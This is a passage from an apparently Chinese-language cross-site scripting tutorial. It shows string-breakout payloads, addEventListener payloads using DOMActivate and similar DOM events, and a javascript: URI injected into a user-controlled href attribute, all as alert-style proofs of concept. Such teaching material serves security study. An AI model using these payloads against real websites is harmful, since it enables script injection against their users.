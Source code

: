 最终结果就是

```
<script>
Var x="";alert(1)//
</script>

```

#### 非常规的事件监听

例如：

```
";document.body.addEventListener("DOMActivate",alert(1))//
";document.body.addEventListener("DOMActivate",prompt(1))//
";document.body.addEventListener("DOMActivate",confirm(1))//

```

下面是一些相同的类：

```
DOMAttrModified
DOMCharacterDataModified
DOMFocusIn
DOMFocusOut
DOMMouseScroll
DOMNodeInserted
DOMNodeInsertedIntoDocument
DOMNodeRemoved
DOMNodeRemovedFromDocument
DOMSubtreeModified

```

#### HREF内容可控

例如：

```
<a href="Userinput">Click</a>

```

可控的是Userinput那里我们需要做的只是把javascript代码输入就好了：

```
javascript:alert(1)//

```

最后组合为：

```
<a href="javascript:alert(1)//">Click</a>

```
